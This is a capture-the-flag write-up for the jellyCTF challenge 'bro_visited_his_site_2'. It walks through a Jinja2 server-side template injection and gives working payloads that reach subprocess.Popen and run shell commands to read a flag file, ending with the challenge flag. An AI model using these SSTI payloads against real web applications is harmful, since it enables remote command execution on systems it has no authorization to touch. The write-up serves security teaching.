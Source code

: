 # bro_visited_his_site_2

**Difficulty**: Easy

**Points earned**: 453

**Description**:

```
ok, but can you get /app/flag.txt

note: this is not the flask secret - that's the first bro_visited_his_site

20 point hint: list of techniques for the vuln class

Author: arepi

https://bro-visited-his-site.jellyc.tf/
```

![bro_visited_his_site website input](./images/bro_visited_his_site_input.png "bro_visited_his_site input")

![bro_visited_his_site website output](./images/bro_visited_his_site_output.png "bro_visited_his_site output")

**Solution**: 

Somehow we need to execute a shell command to print the contents of `flag.txt`. Doing some Googling about template injection (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), I found out that I needed to access the global object and use Popen to read `flag.txt`. This is the snippet that caught my attention:

```
# The class 396 is the class <class 'subprocess.Popen'>
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

When we visit `https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()`, we are greeted with a massive list of classes. The index of Popen here wasn't the same as it was in the HackTricks article above, so I had to look for it myself.

After finding Popen's index, I plugged it into the rest of the URL to get the flag:

```
https://bro-visited-his-site.jellyc.tf/response?word={{dict.__base__.__subclasses__()[520]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
```

![bro_visited_his_site_2 solution](./images/bro_visited_his_site_2_sol.png "bro_visited_his_site_2 solution")

**Flag**: `jellyCTF{rc3p1lled_t3mpl4te_1nj3ct10nmaxx3r}`